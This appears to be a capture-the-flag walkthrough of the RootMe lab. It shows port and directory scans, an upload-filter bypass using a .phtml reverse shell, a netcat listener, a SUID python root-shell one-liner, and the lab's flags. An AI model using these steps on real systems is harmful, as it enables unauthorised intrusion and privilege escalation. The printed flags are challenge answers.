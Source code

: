 # RootMe - Walkthrough

![TITLE](title.png)

## TARGET : 10.10.152.136
## ATTACKER : OPENVPN IP

## Scanning

`nmap -A -p- -T4 10.10.152.136`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website

![WEBSITE](website.png)

`gobuster dir -u http://10.10.128.51/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.128.51/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.128.51/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.128.51/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.128.51/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.128.51/panel/]
```

## Panel

Panel is a uploadify panel. We can upload a php file and get a reverse shell.

![PANEL](panel2.png)

It looks like we can't upload a php file. So we can try to upload a php file with a different extension.

`revshell.phtml`

![PANEL](panel1.png)


In `/uploads` we can see our file.

`nc -lnvp 9001`

```
$ whoami
www-data
$ find / -name user.txt 2>/dev/null
/var/www/user.txt
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
$ 
```

## Privilege Escalation

`find / -type f -perm /4000 2>/dev/nul`

```
/usr/bin/python
```

There is a SUID bit on python. We can use [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid) to get root.

`/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

```
$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

